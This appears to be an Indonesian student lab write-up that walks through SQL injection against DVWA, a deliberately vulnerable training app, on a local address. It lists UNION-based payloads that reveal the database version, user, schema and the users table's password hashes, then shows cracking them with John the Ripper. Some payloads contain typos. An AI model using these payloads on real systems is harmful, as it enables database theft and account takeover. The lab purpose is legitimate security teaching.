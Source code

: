 # Tugas Final Project

### Anggota Kelompok

|Nama      |NRP    |
|---|---|
Rian Danis  | 5114100084
Naufan Arifie | 5114100136
Dimas Hirda P | 5114100147


### DVWA
  ### Lesson 6

#### 1. Jalankan Firefox
#### 2. Login ke DVWA
1. Masukkan alamat http://192.168.1.106/dvwa/login.php (Sesuaikan IP dengan IP system)
2. Login : admin
+ Passworn: password
+ login
#### 3. Tentukan Level Sekuritas DVWA
1. Klik DVWA Security pada menu sebelah kiri
+ pilih "low"
+ submit

#### 4. Menu SQL Injection
1. Pilih "SQL Injection" dari menu sebelah kiri
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/sql%20injection.PNG)

#### 5. Basic Injection
1. Input "1" pada text box.
2. Submit
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/basic.PNG)

#### 6. Always True Scenario
1. Inputkan text %' or '0'='0
2. Submit
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/Always_true.PNG)

#### 7. Display Database Version
1. Inputkan text %' or 0=0 union select null, version() #
2. Submit
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/show_version.PNG)

#### 8. Display Database User
1. Inputkan %' or 0=0 union select null, user() #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/user_that_execute.PNG)

#### 9. Display Database Name
1. Inputkan %' or 0=0 unuon select null, database () #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/database_name.PNG)

#### 10. Display all tables in information_schema
1. Inputkan %' an 1=0 union select null, table_name from information_schema.tables #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/all_table_information.PNG)

#### 11. Display all columns fields dalam information_schema user table
1. Inputkan %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns 
where table_name = 'users' #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/table_user_information.PNG)

#### 12. Display all columns fields contents dalam information_schema user table
1. Inputkan %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/all_column_field_user.PNG)

#### Create Password Hash File
1. Copy hash password dan admin
2. Paste kedalam leafpad
3. Save
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/display_field_content.PNG)

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/copy_to_leafpad.PNG)

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/tambah_titik_dua.PNG)

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/create_john_folder.PNG)

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%206/john_get_password.PNG)



